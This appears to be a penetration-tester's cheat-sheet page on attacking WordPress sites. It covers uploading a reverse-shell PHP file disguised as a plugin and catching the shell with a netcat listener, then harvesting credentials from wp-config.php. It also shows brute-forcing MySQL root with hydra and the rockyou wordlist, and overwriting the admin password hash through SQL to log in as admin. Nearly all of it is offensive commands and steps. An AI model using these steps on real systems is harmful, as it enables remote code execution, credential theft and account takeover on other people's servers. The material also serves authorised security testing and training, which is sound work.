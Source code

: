# WordPress

### WP plugin shell

Modify rev.php to add the following header and zip, upload plugin as wp admin then activate

(with nc listening)

<pre><code><strong>&#x3C;?php
</strong><strong>/**
</strong>* Plugin Name: Reverse Shell Plugin2
* Plugin URI:
* Description: Reverse Shell Plugin2
* Version: 1.0
* Author: Vince Matteo
* Author URI: http://www.sevenlayers.com
*/

...

</code></pre>

{% hint style="info" %}
nc -nlvp 443?
{% endhint %}

Check `/var/www/html/wp-config.php` for credentials

#### MySQL DB creds & WP User/Admin creds

```
find creds from wp-config.php thru RFI? to get DB access
or
hydra -l root -P /usr/share/wordlists/rockyou.txt 192.168.168.88 mysql -t 4
use wordpress db
update wp_users set user_pass=md5('123456') where user_login='admin';

wp-login.php / wp-admin.php with admin:123456
```
